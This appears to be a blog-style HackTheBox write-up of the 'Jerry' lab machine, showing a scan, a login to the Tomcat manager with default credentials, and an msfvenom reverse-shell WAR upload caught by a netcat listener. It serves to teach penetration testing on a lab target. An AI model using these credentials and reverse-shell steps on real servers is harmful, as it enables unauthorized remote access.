 ```yaml
---
Platform: HackTheBox
Category: Web
Difficulty: Easy
tags:
  - RCE
  - arbitrary-file-upload
  - default-credentials
Status: Rooted/Finished
Type: Machine
Title: Jerry
CreatedOn: 04-12-2023
---
```

# Jerry

Hello everyone, In this blog we are going to solve Jerry from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/Jerry](https://app.hackthebox.com/machines/Jerry)

  

Lets Start 🙌

  

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

  

First start the reconnaissance by running `rustscan` on the target IP address.

Command: `rustscan -a 10.10.10.95 -- -A -T4 -v -Pn`

![[Jerry/assets/Untitled.png|Untitled.png]]

![[Jerry/assets/Untitled 1.png|Untitled 1.png]]

From the results of `rustscan`, we can see that on port `8080`, Apache Tomcat service is running.

I visited the web server running on `http://10.10.10.95:8080/`.

![[Jerry/assets/Untitled 2.png|Untitled 2.png]]

We can see the default home page of the Apache Tomcat server. I started exploring by clicking all the buttons and links in the home page.

![[Jerry/assets/Untitled 3.png|Untitled 3.png]]

I clicked the Manager App button and it redirected me to the following link: [http://10.10.10.95:8080/manager/html](http://10.10.10.95:8080/manager/html), which prompted me for a username and password:

![[Jerry/assets/Untitled 4.png|Untitled 4.png]]

On investigating about the above URL, I found this [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials)

![[Jerry/assets/Untitled 5.png|Untitled 5.png]]

So I tried `admin:admin` combination in the prompt and it thrown me the following error:

![[Jerry/assets/Untitled 6.png|Untitled 6.png]]

from the above error, we can see that they have shown a example, in which they have used `tomcat:s3cret` combination. Let’s give it a try with this combination.

![[Jerry/assets/Untitled 7.png|Untitled 7.png]]

It worked and we got access to the Application Manager.

Further surfing the Application Manager, we can see that there is an option to upload files of type WAR.

![[Jerry/assets/Untitled 8.png|Untitled 8.png]]

We can generate a `msfvenom` reverse shell and upload it as mentioned here: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell)

![[Jerry/assets/Untitled 9.png|Untitled 9.png]]

Generate the Reverse Shell using the following command:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<HTB_tun_IP> LPORT=8888 -f war -o revshell.war`

![[Jerry/assets/Untitled 10.png|Untitled 10.png]]

Now upload this `revshell.war` file and click deploy.

![[Jerry/assets/Untitled 11.png|Untitled 11.png]]

Now if we check the Applications table, we can see that a new path `/revshell` is generated.

![[Jerry/assets/Untitled 12.png|Untitled 12.png]]

Before clicking or viewing the `/revshell` link, start a `netcat` listener on your attack box / local machine on port `8888`

![[Jerry/assets/Untitled 13.png|Untitled 13.png]]

Now click the `/revshell` and check the `netcat` listener.

![[Jerry/assets/Untitled 14.png|Untitled 14.png]]

![[Jerry/assets/Untitled 15.png|Untitled 15.png]]

We have successfully got access to the target machine.

Now we have to look out for the flags. I started surfing the machine. I visited the `C:\Users` directory and found the following users:

![[Jerry/assets/Untitled 16.png|Untitled 16.png]]

I checked the Administrator directory. In the Desktop folder of Administrator found the `flags` directory.

![[Jerry/assets/Untitled 17.png|Untitled 17.png]]

The flags directory had a file named `2 for the price of 1.txt`.

You can view the contents of the `2 for the price of 1.txt` file using the command: `more "2 for the price of 1.txt"`

![[Jerry/assets/Untitled 18.png|Untitled 18.png]]

We have successfully found both the user and root flags.

  

Thank You !!!!!!!